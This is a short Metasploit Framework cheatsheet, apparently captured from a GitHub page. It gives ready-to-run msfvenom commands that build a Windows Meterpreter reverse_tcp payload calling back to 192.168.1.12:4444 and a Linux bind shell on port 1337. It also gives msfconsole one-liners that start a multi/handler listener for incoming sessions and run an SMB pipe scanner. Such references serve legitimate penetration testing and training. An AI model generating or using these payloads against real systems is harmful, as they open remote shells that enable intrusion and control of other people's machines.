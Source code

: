 # Metasploit Framework Cheatsheet



#### Generate a payload

```bash
 msfvenom -p <payload> VAR1=value1 VAR2=value2 -f <format> > outfile
```

##### Examples

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.12 LPORT=4444 -f vbs-exe > meterpreter_reverse_tcp.txt 
```

```bash
msfvenom -p linux/shell/bind_tcp RHOST=0.0.0.0 RPORT=1337 -f elf-so > bind_shell.so
```



#### MSF Console

```bash
msfconsole -x "use exploit/multi/handler ; set PAYLOAD <payload> ; set  VAR1 value1 ; set VAR2 value2 ; exploit ; exit -y;"
```
```bash
msfconsole -x "use auxiliary/scanner/smb/pipe_auditor ; set rhosts <ip> ; run ; exit -y;"
```



